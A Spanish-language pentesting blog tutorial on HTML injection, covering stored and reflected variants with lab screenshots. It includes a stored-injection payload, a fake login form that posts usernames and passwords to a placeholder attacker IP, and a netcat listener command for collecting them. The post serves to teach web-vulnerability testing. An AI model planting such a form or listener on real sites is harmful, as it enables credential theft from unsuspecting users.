 ```yaml
---
title: HTML injection
date: 2019-04-15
categories: [Pentesting, Injection]
excerpt: Vulnerabilidad HTML.
tags: [HTML, Injection]
---
```


## ¿Que es la inyección HTML?
---

Este tipo de ataque nos permite inyectar código HTML malicioso a través de campos vulnerables donde la web espera datos en formas de texto, este tipo de inyección se suelen hacer por dos propósitos, modificar el contenido de la web (ya sea información o el diseño como tal) o robar la identidad de algún usuario haciéndonos pasar por el.  
  
Realizar este tipo de ataque o inyección es bastante sencillo, pues, HTML no es un lenguaje complejo para aprender, si quiere seguir con este tutorial te recomiendo conocimientos previos de [HTML](https://www.w3schools.com/html/). También recomiendo este otro blog: [XSS](www.sstandby.github.io/posts/xss) donde hablo de otro método o inyección.  
  
Existen diversos métodos para poder llevar a cabo todo esto y son:  

-  HTML Almacenado: Este método se le conoce como persistente ya que al inyectar algún script en la pagina "victima" se almacenara permanentemente en el servidor de la web.
-  HTML Reflejado (Url, get, post): Este método es lo contrario al anterior conocido también como no persistente, porque el código HTML no es almacenado en el servidor, en este caso la web responde inmediatamente a la entrada maliciosa del atacante o usuario.

### Ejemplos.  
---

Usare dos ejemplos para explicar el primer método. Lo que debemos hacer es inyectar el siguiente código en alguna parte de la web, este sera almacenado en el servidor web para que los nuevos visitantes interactúen con el, las credenciales son enviadas a la IP atacante:

```html
<form name="login" action="http://ipdelatacante:puerto/test.html">
<table>
<tr><td>Username: </td><td><input type='text' name="username"/></td></tr>
<tr><td>Password: </td><td><input type='password' name="password"/></td></tr>
</table>
<input type="submit" value="Login"/>
</form>
```

![html](/assets/img/post/22/html1.png)
  
Ahora solo falta configurar netcat para que nos llegue las credenciales a nuestra IP.  
  
```bash
nc -nvlp 8080
```
  
![html2](/assets/img/post/22/html2.png)

Puse este ejemplo, porque simplemente me gusto lo creativo que es y es uno de muchos que en realidad te dice como es un verdadero ataque de HTML almacenado, para los que estén perdidos explicare su proceso en un pequeño resumen; todo que sea registrado por el cliente sera reenviado a la dirección IP (La de nosotros), como verán nos dice hasta que os usamos y que navegador utilizamos como cliente. También se puede hacer diferentes mas buenas que esta, esto solo es algo básico, pero es para que se  den una idea. Todo dependerá de su iframe, hasta pueden usar curl y hacer cosas curiosas.  
   
### HTML POST. 
---
  
> Primero explicare lo que es GET y POST de forma resumida para puedan entenderlo: **Get:** Envía los datos de forma visible mientras que **POST:** lo envía de forma invisible o oculta.

![html3](/assets/img/post/22/html3.png)

Al darle Go la información del cliente sera procesada por el servidor de forma invisible y oculta, pero ¿Que pasaría si analizamos esa información que procesamos?, nos podremos dar de cuenta el método (firstname=Hola&lastname=Hola&form=submit) que usa en este caso vemos la utilización de html podemos buscar vulnerabilidades en esto, por ejemplo, usar a favor esto para poner html dentro del inframe html:  
  
![html4](/assets/img/post/22/html4.png)

### HTML Injection - Reflected (GET)
---

Es todo lo contrario puesto que si se envía la información, pero no de forma invisible sino visible a la vista del cliente o del atacante, por lo tanto podemos usar esto de dos formas implementar nuestro inframe mediante la URL o desde ya por el formulario, ya que la url nos dice como trabaja. 

![html5](/assets/img/post/22/html5.png)

Fin del comunicado, nos vemos.